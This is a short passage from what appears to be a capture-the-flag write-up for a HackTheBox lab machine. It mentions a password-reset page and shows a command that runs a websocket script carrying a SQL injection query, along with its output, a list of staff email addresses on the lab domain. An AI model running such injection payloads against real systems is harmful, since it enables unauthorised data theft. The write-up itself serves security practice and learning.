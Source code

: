 
### DNS Hijacking

* There is a "forgot password" option in `employees.crossfit.htb` login page.

  ![](screenshots/pass-reset.png)

* Found Email address from sql injection

      ❯ python websocket.py -u -p "SELECT group_concat(email) from employees.employees"
      david.palmer@crossfit.htb
      jack.parker@crossfit.htb
      maria.williams@crossfit.htb
      will.smith@crossfit.htb
